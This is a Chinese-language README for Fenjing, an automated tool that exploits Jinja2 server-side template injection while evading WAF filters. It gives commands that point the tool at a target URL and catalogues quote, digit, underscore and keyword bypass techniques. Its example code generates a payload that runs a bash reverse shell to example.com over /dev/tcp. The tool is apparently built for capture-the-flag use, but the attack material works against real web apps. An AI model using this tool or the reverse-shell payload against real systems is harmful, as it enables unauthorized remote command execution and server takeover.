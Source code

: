 ![焚靖](assets/fenjing.webp)

> Bypass the WAF without knowing WAF

焚靖是一个针对Jinja2 SSTI的命令行脚本，具有强大的自动绕过WAF功能

## 演示

![CTFShow web365](assets/demo.webp)

`python -m fenjing crack --inputs name --method GET --url 'http://xxx/'`

## 快速上手

在以下方法中选择一种

`url`是表单所在的URL, `method`是提交表单的HTTP方法, `inputs`是表单的所有字段，以逗号分隔

### 使用pip安装运行

```shell
pip install fenjing
python -m fenjing crack --inputs name --method GET --url 'http://xxx/'
```

### 下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run marven11/fenjing crack --inputs name --method GET --url 'http://xxx/'
```

### 手动安装

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing crack --inputs name --method GET --url 'http://xxx/'
```

### 手动构建Docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing crack --inputs name --method GET --url 'http://xxx/'
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


### 作为库使用

参考[example.py](fenjing/example.py)

```python
from fenjing import exec_cmd_payload

import functools
import time
import logging

logging.basicConfig(level = logging.WARNING)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "request", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]

    for word in blacklist:
        if word in s:
            return False
    return True

payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")

print(payload)

```

